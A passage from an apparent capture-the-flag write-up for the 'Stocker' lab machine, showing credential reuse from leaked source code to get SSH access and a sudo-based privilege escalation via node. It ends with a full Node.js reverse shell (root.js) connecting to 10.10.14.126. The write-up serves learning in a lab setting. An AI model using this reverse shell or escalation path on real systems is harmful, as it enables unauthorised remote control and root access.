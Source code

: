 ```js
return res.json(products);  
});  
app.get("/login", (req, res) => {  
if (req.session.user) return res.redirect("/stock");  
return res.sendFile(__dirname + "/templates/login.html");  
});  
app.post("/login", async (req, res) => {  
const { username, password } = req.body;  
if (!username || !password) return res.redirect("/login?error=login-error");  
// TODO: Implement hashing
```
Mongodb passwd: `IHeardPassphrasesArePrettySecure`

We can try this paword for the username we saw on the `stocker.htb`.
![](https://imgur.com/GsuGXpv.png)

# FOOTHOLD [Angoose].
Let's try to ssh as a `angoose`.
![](https://imgur.com/e29Nk7C.png)

We succeed.

# PRIVESC

Let's throw linpeas and find any privesc vector.
```bash
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js

```

Let's create a `root.js` file in angoose home directory.
```js
angoose@stocker:~$ cat root.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(8786, "10.10.14.126", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();

```
